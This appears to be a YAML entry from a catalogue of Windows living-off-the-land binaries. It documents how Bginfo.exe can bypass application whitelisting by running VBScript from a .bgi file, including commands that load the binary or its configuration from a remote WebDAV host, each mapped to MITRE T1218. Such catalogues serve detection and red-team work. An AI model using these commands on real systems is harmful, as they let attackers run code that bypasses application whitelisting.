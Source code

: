 ```yaml
---
name: Bginfo.exe
description: Background Information Utility included with SysInternals Suite
functions:
  awl bypass:
    - description: Execute VBscript code that is referenced within the bginfo.bgi file.
      code: bginfo.exe bginfo.bgi /popup /nolicprompt
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows
      privileges: User
      usecase: Local execution of VBScript
    - description: Execute bginfo.exe from a WebDAV server.
      code: \\10.10.10.10\webdav\bginfo.exe bginfo.bgi /popup /nolicprompt
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows
      privileges: User
      usecase: Remote execution of VBScript
    - description: This style of execution may not longer work due to patch.
      code: \\live.sysinternals.com\Tools\bginfo.exe \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows
      privileges: User
      usecase: Remote execution of VBScript
resources:
    - resource: https://oddvar.moe/2017/05/18/bypassing-application-whitelisting-with-bginfo/
fullpath:
    - path: No fixed path
detection:
  - IOC: 
acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

